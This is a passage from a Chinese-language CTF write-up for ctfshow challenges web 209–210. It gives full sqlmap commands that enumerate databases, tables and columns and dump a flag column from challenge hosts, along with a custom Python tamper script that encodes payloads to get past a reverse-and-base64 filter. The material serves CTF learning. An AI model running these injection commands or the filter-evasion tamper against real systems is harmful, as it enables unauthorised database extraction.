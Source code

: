 ```bash
# 爆字段 ctfshow_flagx
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs -D ctfshow_web --tables -T ctfshow_flav --columns -C ctfshow_flagx --dump
```

## web 210

题目关键处理语句`strrev(base64_decode(strrev(base64_decode($id))));`，把payload逆向一下，让他处理后得到payload

错误示范：

base64加密 =》 strrev反转 =》base64加密 =》strrev反转

正确：

反转 =》 加密 = 》 反转 =》 加密

tamper编写，show-web210.py

```python
#!/usr/bin/env python

import base64
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
  # 反转 =》 加密 = 》 反转 =》 加密
    return base64.b64encode(base64.b64encode(payload[::-1].encode()).decode()[::-1].encode()).decode()
```

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs 
# 爆表 ctfshow_flavi
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables
# 爆字段 ctfshow_flagxx
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavi --columns  
# 爆数据 
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavi --columns -C ctfshow_flagxx --dump
```
